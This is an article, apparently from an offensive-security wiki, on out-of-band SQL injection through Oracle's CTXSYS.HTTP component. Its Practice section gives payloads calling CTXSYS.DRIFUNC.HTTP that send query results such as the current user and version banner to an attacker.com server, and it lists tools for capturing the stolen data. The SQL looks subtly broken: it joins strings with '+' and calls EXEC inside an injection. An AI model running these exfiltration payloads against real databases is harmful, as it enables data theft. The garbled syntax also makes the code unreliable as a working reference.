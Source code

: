 ```yaml
---
title: 'CTXSYS.HTTP: Out-of-Band SQL Injection Exploits'
description: Explore how to exploit Oracle's CTXSYS.HTTP for data exfiltration via
  out-of-band SQL injections.
keywords:
- CTXSYS.HTTP
- Oracle SQL Injection
- out-of-band injection
- data exfiltration
- Oracle Text component
- SQL exploits
- database security
---
```


# CTXSYS.HTTP

## Context

Oracle databases, renowned for their robustness, can still be vulnerable to SQL injection attacks when improperly configured. One specific attack vector comes through functional components like `CTXSYS.HTTP`, which belong to the Oracle Text component. Such components can be exploited to perform out-of-band SQL injection, sending data to an attacker-controlled server through external network HTTP calls. This technique allows attackers to exfiltrate sensitive data even when a direct connection or response is not feasible.

In this article, we will explore how to leverage `CTXSYS.HTTP` for out-of-band SQL injection, enabling attackers to extract data from Oracle databases.

## Theory

The core idea behind exploiting `CTXSYS.HTTP` involves abusing the functional capabilities of Oracle Text, which can make HTTP requests. By injecting SQL commands into this function, attackers can exfiltrate data indirectly through crafted network requests.

```mermaid
mindmap
  root((ORACLE SQL INJECTION TECHNIQUES))
    Out-of-Band Injection
        CTXSYS.HTTP
```

In this diagram, we identify `CTXSYS.HTTP` as a node under out-of-band injection techniques specific to Oracle SQL, illustrating its relationship within a broader context of SQL injection methods.

## Practice

### Exploitation via CTXSYS.HTTP in Oracle

The following steps describe how to execute an out-of-band injection using `CTXSYS.HTTP` in an Oracle database environment:

#### Step 1: Establish a Database Connection

To begin, connect to the Oracle database using a tool such as SQL*Plus. Ensure that the user credentials have the necessary privileges to execute functions under `CTXSYS`.

```bash
sqlplus username/password@hostname/SID
```

#### Step 2: Prepare the Exploit with CTXSYS.HTTP

Craft a payload using the `CTXSYS.DRIFUNC.HTTP` function to perform an out-of-band data exfiltration. This function can be leveraged to send an HTTP request, allowing data encoded in the request parameters to be sent to an attacker-controlled server.

```sql
EXEC CTXSYS.DRIFUNC.HTTP('http://attacker.com/'+ (SELECT user FROM dual));
```

#### Step 3: Monitor Out-of-Band Channel

Set up an HTTP server at the specified attacker URL (e.g., `http://attacker.com/`) to capture the HTTP requests. This server will receive exfiltrated data, which can be observed using network monitoring tools.

### Payload Construction for Data Extraction

To extract specific data using the out-of-band technique, tailor the payload to target specific database information. For instance, to retrieve version information:

```sql
EXEC CTXSYS.DRIFUNC.HTTP('http://attacker.com/'+ (SELECT banner FROM v$version));
```

Adapt the SQL expression within the payload to target different data sets as required.

### Tools

- **SQL*Plus**: For executing SQL commands and payloads.
- **Wireshark**: To monitor network traffic and validate outbound HTTP requests.
- **Burp Suite**: For analyzing and capturing HTTP requests exchanged between the database and the attacker-controlled server.
- **Custom HTTP Server**: For receiving and logging data exfiltrated during the attack.

### Result Usage

Successful exploitation of `CTXSYS.HTTP` can yield valuable data, such as:

- Extracted user credentials.
- Identified Oracle database version.
- Additional insights that can facilitate further exploitation of the database environment.

By leveraging these procedures, attackers can perform advanced SQL injection attacks that result in significant data breaches, particularly in environments where traditional methods are restricted by network configurations or database security policies. It is crucial to comprehend these techniques to safeguard databases from potential exploitation.
